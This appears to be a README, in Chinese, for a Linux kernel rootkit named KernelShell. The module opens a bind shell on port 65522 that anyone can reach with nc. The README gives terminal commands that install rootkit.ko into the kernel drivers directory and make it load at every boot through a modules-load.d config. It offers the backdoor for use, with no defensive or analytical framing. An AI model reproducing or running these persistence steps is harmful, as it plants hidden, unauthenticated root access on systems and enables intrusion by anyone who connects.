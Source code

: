 # KernelShell

这个模块实现了一个bindShell 端口65522nc连接就可以，安装过程如下，且可以保证重启依旧有效

```
┌──(kali㉿kali)-[~/kernel2]
└─$ sudo cp rootkit.ko /lib/modules/$(uname -r)/kernel/drivers/                           

┌──(kali㉿kali)-[~/kernel2]
└─$ sudo depmod -a
                                               
┌──(kali㉿kali)-[~/kernel2]
└─$ sudo nano /etc/modules-load.d/rootkit.conf #rootkit
                                           
┌──(kali㉿kali)-[~/kernel2]
└─$ 
```
![image.png](https://s2.loli.net/2025/10/08/zLWIxr3XHtUBlM9.png)